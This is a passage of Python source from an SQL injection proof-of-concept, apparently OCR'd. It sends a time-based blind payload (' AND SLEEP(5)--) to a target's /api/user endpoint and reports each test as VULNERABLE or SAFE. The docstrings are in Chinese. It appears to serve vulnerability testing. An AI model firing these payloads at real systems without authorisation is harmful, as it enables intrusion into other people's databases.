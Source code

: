 ```python
                    print(f"[+] Retrieved {len(data)} users (should be 1)")
                    print(f"[+] Sample data: {data[0]}")
                    return True
            
            print("[-] Injection failed or filtered")
            return False
            
        except Exception as e:
            print(f"[-] Error: {e}")
            return False
    
    def test_time_based_blind(self):
        """
        测试2: 时间盲注测试
        Payload: ' AND SLEEP(5)--
        预期: 响应延迟5秒（证明SQL执行）
        """
        print("[*] Testing time-based blind SQL injection...")
        
        import time
        payload = "' AND SLEEP(5)--"
        
        start = time.time()
        try:
            response = self.session.get(
                f"{self.target_url}/api/user",
                params={"id": payload},
                timeout=10
            )
            elapsed = time.time() - start
            
            if elapsed >= 5:
                print(f"[+] Time-based blind SQLi CONFIRMED!")
                print(f"[+] Response delayed by {elapsed:.2f}s")
                return True
            
        except requests.Timeout:
            print("[+] Request timed out - possible SQLi")
            return True
        except Exception as e:
            print(f"[-] Error: {e}")
        
        return False
    
    def run_all_tests(self):
        """运行所有测试"""
        print("="*60)
        print("SQL Injection POC")
        print(f"Target: {self.target_url}")
        print("="*60)
        
        results = {
            "basic_injection": self.test_basic_injection(),
            "time_based_blind": self.test_time_based_blind(),
        }
        
        print("\n" + "="*60)
        print("Results Summary:")
        for test, result in results.items():
            status = "VULNERABLE" if result else "SAFE"
            print(f"  {test}: {status}")
        print("="*60)
        
```